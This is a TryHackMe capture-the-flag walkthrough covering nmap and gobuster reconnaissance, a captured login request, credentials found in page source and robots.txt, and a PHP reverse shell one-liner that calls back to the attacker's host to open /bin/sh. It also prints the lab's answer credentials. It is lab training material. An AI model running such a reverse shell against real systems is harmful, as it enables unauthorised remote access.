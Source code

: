# Tryhackme ctf challenge
my machine: 10.9.234.242

target ip: 10.10.40.177

#### procedure

1. Perform nmap scan `nmap -sC -sV 10.10.40.177`
    ![init nmap scan](./images/nmap_initial.png)
    - since we know port 80 is open we can explore the website. There will be a hint within the source code of the the home page. Let's remember the username `R1ckRul3s`

2. Perform gobuster scan to enumarate the website `gobuster dir -w <path to wordlist> -u http://10.10.40.177:80 -x php,txt,py,sh,cgi,bak,css,js`
    ![gobuster scan](./images/gobuster.png)
    - gobuster was able to identify the route /login.php. I captured one of the requests using burpsuite to get the parameters that are submitted during post login, to try and perform a bruteforce on the http post form using hydra. (No success)
    ```
    POST /login.php HTTP/1.1
    Host: 10.10.40.177
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31
    Origin: http://10.10.40.177
    Connection: close
    Referer: http://10.10.40.177/login.php
    Cookie: PHPSESSID=8hktk8c7ddson4fim2o6gefl74
    Upgrade-Insecure-Requests: 1

    username=a&password=a&sub=Login
    ```
    - eventually we eventually found the password from robots.txt `Wubbalubbadubdub`. Let's try to login using `R1ckRul3s`.

3. Once we logged in we have a command panel where we can run limited commands under the www-data user.
    ![init nmap scan](./images/login_home.png)
    - perform a reverse shell using this command `php -r '$sock=fsockopen("<your ip>",<your port>);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - once we got the shell from our terminal we can see there's a file that we cannot directly open to get the 1st ingredient. (use grep to open)
    ![1st ingredient](./images/first_ingredient.png)
    - 2nd ingredient will be located somewhere around /home
    - last ingredient would most likely be in /root, but we don't have acces to it. try to run this command `sudo -l` and try to see if you can use grep to get the last ingredient.
